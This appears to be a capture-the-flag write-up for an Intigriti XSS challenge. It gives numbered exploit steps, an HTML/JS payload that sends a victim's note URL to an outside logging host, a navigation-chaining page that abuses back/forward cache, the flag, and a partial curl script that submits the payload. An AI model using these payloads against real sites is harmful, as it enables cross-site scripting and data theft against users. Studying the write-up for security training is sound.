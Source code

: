 `location = 'https://log.43z.one/' + flag`


# Final instructions
1. create the note with the content and call the note id of it **PAYLOAD_ID**
```html
<iframe id=i src=http://127.0.0.1/notes></iframe>
<style>@import '//fonts.gstatic.com'</style>
<script src="http://127.0.0.1/a/;location='//log.43z.one/'+i.contentDocument.links.item(0).href)"></script>
```

2. Construct **URL1** like this https://challenge-0323.intigriti.io/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/ **PAYLOAD_ID**

3. Construct **URL2** like this https://challenge-0323.intigriti.io/note/**PAYLOAD_ID**?id=../debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/ **PAYLOAD_ID**

4. Construct a web page with the following content and name it's URL **FIRST_STAGE**

```js
params = new URL(location).searchParams
url1 = params.get('url1')
url2 = params.get('url2')

if(url1 && url2){
 w = open(url1)
 setTimeout(_=>w.location = url2, 2000)
 setTimeout(_=>w.location = `https://httpx.43z.one?status=200&body=<script>history.go(-2)<\/script>`, 3000)
}
```
  

6. Construct **VISIT_URL** like this **FIRST_STAGE**?url1=**URL1**&url2=**URL2**

7. Open the URL https://log.43z.one in a Tab 1
8. Open the URL https://challenge-0323.intigriti.io/visit?url= **VISIT_URL** in Tab 2
9. Watch Tab 1 until the URL of note with the flag appears
10. Open URL of flag note 
11. Enjoy the flag `INTIGRITI{b4ckw4rD_f0rw4rd_c4ch3_x55_3h?}`

Here is how it looks exploiting the challenge locally with the setting `headless` to `false` in `bot.js`.

![enter image description here](https://imgur.com/Imt05NF.png)

Here the final script that does all the tasks we did manually before.
```sh
#!/bin/sh
# dependencies curl, pup, jq

CHALLENGE="https://challenge-0323.intigriti.io"
ENDPOINT="http://127.0.0.1"

# create the contents of the payload note
# store it as JSON into payload.txt ready to be passed to /create
cat << EOF > payload.txt
{"title":"payload","note":"<iframe id=i src=$ENDPOINT/notes></iframe><style>@import'//fonts.gstatic.com'</style><script src=\"$ENDPOINT/a/;location='//log.43z.one/'+i.contentDocument.links.item(0).href\"></script>"}
EOF

# send request to the challenge to create the note
# read POST body from payload.txt
curl -s -b cookies.txt -c cookies.txt "$CHALLENGE/create" -X POST -H 'Content-Type: application/json' --data-binary "@payload.txt"

```